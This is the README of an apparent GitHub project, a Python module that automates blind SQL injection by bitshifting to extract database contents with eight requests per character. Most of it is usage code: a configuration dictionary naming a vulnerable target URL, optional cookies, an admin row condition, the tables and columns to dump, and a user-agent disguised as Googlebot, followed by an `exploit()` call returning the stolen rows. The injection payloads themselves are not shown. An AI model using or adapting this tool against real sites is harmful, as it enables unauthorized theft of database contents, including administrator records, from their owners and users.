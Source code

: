 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character.

Further efficiency is possible as specified in the original [paper](https://www.exploit-db.com/papers/17073/):

```
Further optimizing this technique can be done.
The ASCII table is just 127 characters which is 7 bits per character so we can assume we will never go over it and decrement this technique with 1 request per character.
```

This module does not make those assumptions, but can with some slight modifications. This is so that it can handle all scenarios, including edge cases.

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow', # This specifies to use the first row as the column headers.
               tablefmt='psql') # Using the SQL output format. Other formats can be used.
```

This would output:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | lol        |
|    2 | lel        |
+------+------------+
```

